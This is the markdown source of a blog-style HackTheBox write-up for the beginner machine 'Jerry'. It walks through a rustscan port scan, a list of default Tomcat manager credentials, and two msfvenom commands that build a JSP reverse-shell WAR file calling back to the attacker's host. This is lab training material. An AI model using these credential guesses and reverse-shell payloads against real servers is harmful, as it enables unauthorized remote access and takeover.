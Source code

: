 ```yaml
---
title: HTB -- Jerry
date: 2022-01-20
layout: single
header:
  teaser: assets/images/htb/jerry/teaser.png
excerpt: Learn how to exploit a vulnerable tomcat server with a short and sweet beginner box!
classes: wide
categories:
  - hackthebox
tags:
  - hackthebox
  - OSCP
  - tomcat
---
```


### Summary
![](/assets/images/htb/jerry/teaser.png)


## Rustscan


Our scans show that just port 8080 is open, this is irregular but not unheard of. Typically 8080 is used by web services (tomcat in this case).

```
rustscan -a jerry.htb                                                                                 130 ⨯
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.10.95:8080

```

[hacktricks pentesting tomcat](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat) is a great starting point for poking around it's interfaces. We can expect to find a login page at `/manager/html`. Following hacktricks suggestions, we run through default creds
- admin:admin 
- tomcat:tomcat
- admin:<NOTHING>
- admin:s3cr3t
- tomcat:s3cr3t - works!


# Tomcat reverse shell

There is a pattern with tomcat based boxes, they typically involve a reverse `.war` shell being uploaded and used to initiate a connection. Below is a command I used to generate a payload which I then uploaded and browsed to.
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.24 LPORT=4445 -f war > shell.war
```
Here is the catch...it didn't work -- remember to try other ports if the first one you pick isn't working! Often times trying a commonly open port like 80 or 8080 (especially other open ports) will do the trick.

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.24 LPORT=8080 -f war > shell.war
```

![](/assets/images/htb/jerry/shell.png)

Just like that, we have root!

![](/assets/images/htb/jerry/win.png)

